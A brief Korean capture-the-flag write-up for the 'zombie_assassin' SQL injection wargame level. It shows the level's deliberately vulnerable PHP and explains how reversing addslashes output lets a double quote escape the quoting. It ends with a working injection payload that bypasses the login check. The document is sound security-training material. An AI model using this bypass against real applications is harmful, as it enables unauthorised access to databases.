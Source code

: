 # zombie_assassin

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();
  $_GET['id'] = strrev(addslashes($_GET['id']));
  $_GET['pw'] = strrev(addslashes($_GET['pw']));
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

`addslashes`를 이용해서 `'`를 우회할 수 있어보인다.
`id`에 `"`를 넣어서 `'"\'`의 형태가 나와서 `pw`까지 `id`의 인자에 포함된다.
이를 이용해 `exploit`을 하자

> ?id="&pw=%231=1||

클리어!

